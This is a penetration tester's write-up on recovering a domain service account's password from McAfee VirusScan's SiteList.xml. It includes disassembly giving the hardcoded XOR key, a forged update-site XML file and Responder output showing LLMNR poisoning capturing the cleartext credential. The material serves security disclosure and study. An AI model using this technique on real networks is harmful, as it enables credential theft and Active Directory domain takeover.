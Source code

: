 
#### McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

---

#### 16/02/2016 UPDATE

Thanks to [@funoverip](https://twitter.com/funoverip) for his [password decryption tool](https://github.com/funoverip/mcafee-sitelist-pwd-decryption).

Thus to increase my reverse skills I'm back.

```
Executable modules, item 6
 Base=73EB0000
 Size=00028000 (163840.)
 Entry=73EB9B6F cryptshi.<ModuleEntryPoint>
 Name=cryptshi
 File version=2.7.0.815
 Path=C:\Program Files (x86)\McAfee\Common Framework\cryptshim.dll
```

```
; Extract the XOR key
; \x12\x15\x0f\x10\x11\x1c\x1a\x06\x0a\x1f\x1b\x18\x17\x16\x05\x19\x00\x00\x00\x00
0x1001468e C645D812                        mov        byte [ss:ebp+var_28], 0x12
0x10014692 C645D915                        mov        byte [ss:ebp+var_27], 0x15
0x10014696 C645DA0F                        mov        byte [ss:ebp+var_26], 0xf
0x1001469a C645DB10                        mov        byte [ss:ebp+var_25], 0x10
0x1001469e C645DC11                        mov        byte [ss:ebp+var_24], 0x11
0x100146a2 C645DD1C                        mov        byte [ss:ebp+var_23], 0x1c
0x100146a6 C645DE1A                        mov        byte [ss:ebp+var_22], 0x1a
0x100146aa C645DF06                        mov        byte [ss:ebp+var_21], 0x6
0x100146ae C645E00A                        mov        byte [ss:ebp+var_20], 0xa
0x100146b2 C645E11F                        mov        byte [ss:ebp+var_1F], 0x1f
0x100146b6 C645E21B                        mov        byte [ss:ebp+var_1E], 0x1b
0x100146ba C645E318                        mov        byte [ss:ebp+var_1D], 0x18
0x100146be C645E417                        mov        byte [ss:ebp+var_1C], 0x17
0x100146c2 C645E516                        mov        byte [ss:ebp+var_1B], 0x16
0x100146c6 C645E605                        mov        byte [ss:ebp+var_1A], 0x5
0x100146ca C645E719                        mov        byte [ss:ebp+var_19], 0x19
0x100146ce C645D300                        mov        byte [ss:ebp+var_2D], 0x0
0x100146d2 C745C800000000                  mov        dword [ss:ebp+var_38], 0x0
0x100146d9 C745BC00000000                  mov        dword [ss:ebp+var_44], 0x0
0x100146e0 C745B400000000                  mov        dword [ss:ebp+var_4C], 0x0
0x100146e7 8B4D08                          mov        ecx, dword [ss:ebp+arg_0]
0x100146ea E811CCFEFF                      call       exp_?size@ABuffer@crypto@MA@mcafee_com@@QBEKXZ
```

---

#### 02/02/2016 UPDATE

According with [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product ! Find best practices [here](https://kc.mcafee.com/corporate/index?page=content&id=KB70999).

---

#### Story

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof. Actually the SiteList.xml looks like this:

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [**Responder**](https://github.com/SpiderLabs/Responder) enters the matrix.

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on any *Domain Controler* and access all workstations within the domain.

<p align="center">
<img src="img/McAfee.jpg"/>
</p>

Mission accomplished !

[@tfairane](https://twitter.com/tfairane) greetz [@Fr33ster](https://twitter.com/Fr33ster)
